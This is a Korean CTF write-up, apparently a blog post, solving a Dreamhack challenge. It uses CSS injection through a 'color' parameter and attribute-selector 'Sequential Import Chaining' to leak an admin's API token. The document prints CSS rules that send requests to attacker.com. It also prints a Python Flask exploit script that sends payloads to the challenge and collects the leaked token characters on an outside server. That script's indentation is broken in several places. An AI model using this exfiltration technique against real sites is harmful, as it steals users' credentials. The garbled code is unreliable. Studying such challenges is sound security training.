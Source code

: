 ```yaml
---
title: CSS Injection
author: heogi
date: 2024-11-18
categories:
  - CTF
  - Dreamhack
  - Web
tags:
  - CSS
  - CSS-Injection
  - web
comments: true
---
```

# CSS Injection

## 1. Analysis
memo를 작성할 수 있는 서비스를 제공하는 페이지이다.
문제에서 제공하는 코드를 살펴보면 `/report` 를 통해 `admin` 이 사용자가 입력한 특정 URL에 접근하도록 할 수 있는 기능이있다.
또한 `/mypage` 에는 `token`  값이 존재하며 해당 값을 `API-KEY` header에 담아 보내면 `/api/memo` 를 통해 작성한 memo를 확인할 수 있다.

또한 `base.html` 의 코드 중 아래 `color` 파라미터를 통해 사용자의 값을 입력할 수 있으며, 이를 통해 CSS Injection을 트리거 할 수 있다.
```html
<style>
body{
	background-color: {{ color }};
}
</style>
```
![](../assets/img/Pasted%20image%2020241119003348.png)
## 2. Attack
공격을 위한 시나리오는 아래와 같다.
```text
1. color 파라미터를 통해 CSS Injection을 수행한다.
2. Admin의 API-Token 값을 탈취한다.
3. /api/memo를 호출하여 Flag를 확인한다.
```
먼저 color 파라미터를 통해 CSS Injection 공격을 진행, Admin의 API-Token을 탈취해야한다.
이를 위해 CSS Injection Technique 중 `Sequential Import Chaining` 사용한다.

### 2-1. Sequential Import Chaining
CSS의 `Attribute Selectors` 기능을 통해 특정 attribute를 가진 object의 value를 탈취하는 기법이다.
`Attribute Selectors` 는 특정 Attribute를 가진 Object의 CSS Style을 지정하는 기능이다.

input Object의 name이 password 이고 해당 Object의 value를 탈취하고 싶다면
아래처럼 `^=` 특성 선택자를 통하여 value 값에 접미사로 설정한 값이 포함되어있다면 Attacker의 URL로 요청을 보내도록 할 수 있다.
만약 value 가 `beast` 라면 `value^=b` 에서 요청을 보내게되며, 다시 `value^=be` 에서 요청을 보내게 된다.

```html
input[name=password][value^=a]{
    background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
    background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
    background: url('https://attacker.com/9');   
}
```

이를 코드로 구현하면 아래와 같다.

```python
import requests
from flask import Flask, request

app = Flask(__name__)

flag = ""
stop = False

def attack():
	global stop
	global flag
	
	url = "http://host3.dreamhack.games:14737/report"
	headers = {"session":"eyJ1aWQiOjIsInVzZXJuYW1lIjoidGVzdCJ9.Z0sWuQ.wJ757vrJQyofNeQ6TyhUOoRob_g"}

	print("Start Attack")
	
	for x in range(0,8):
		for i in range(ord('a'), ord('z') + 1):
			if stop == True:	
			stop = False	
			break
	
		prefix = flag + chr(i)
		print("sending..."+prefix)
		payload = "mypage?color=green; }} input[id=InputApitoken][value^=\{0\}] \{\{ background:url(http://ctf.heogi.com:5000/?c=\{0\})".format(prefix)
		data = {"path" : payload}
		requests.post(url, headers=headers, data=data)
	
	print("End Attack")

@app.route("/")
def index():
	global flag
	global stop
	
	if request.args.get('c'):
		c = request.args.get('c')
		flag = c
		print(flag)
		stop = True
	else:
		attack()
return flag

if __name__ == "__main__":
	app.run(host="0.0.0.0",debug=True,port=5000)
```
![](../assets/img/Pasted%20image%2020241130230050.png)

획득한 API-Token으로 /api/memo를 호출하면 FLAG를 획득할 수 있다.
![](../assets/img/Pasted%20image%2020241130230500.png)